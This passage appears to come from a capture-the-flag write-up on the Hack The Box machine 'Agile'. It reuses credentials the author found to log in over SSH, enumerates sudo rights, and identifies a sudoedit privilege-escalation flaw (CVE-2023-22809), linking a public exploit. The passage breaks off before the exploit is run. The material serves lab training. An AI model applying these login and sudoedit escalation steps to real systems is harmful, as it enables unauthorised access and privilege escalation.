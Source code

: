 We have a few credentials here :

- Agile : edwards:d07867c6267dcb5df0af
- Twitter : dedwards__:7dbfe676b6b564ce5718

We can now open a SSH session with account edwards :

```bash
ssh edwards@superpass.htb
```

`d07867c6267dcb5df0af`

Let's enumerate this user :

```bash
sudo -l
```

```text
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

We can use sudoedit to perform actions impersonated as dev_admin as :

```bash
sudoedit -u dev_admin /app/config_test.json
```

We can check the version of sudoedit :

```bash
sudoedit --version
```

```text
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

This version seems vulnerable : CVE-2023-22809 : https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf

### Privilege Escalation

One possible exploit found for CVE-2023-22809 :
https://github.com/n3m1dotsys/CVE-2023-22809-sudoedit-privesc/blob/main/exploit.sh

we need to modify a file that dev_admin can control. /app/venv/bin/activate can be written :

```bash
ls -la activate
```
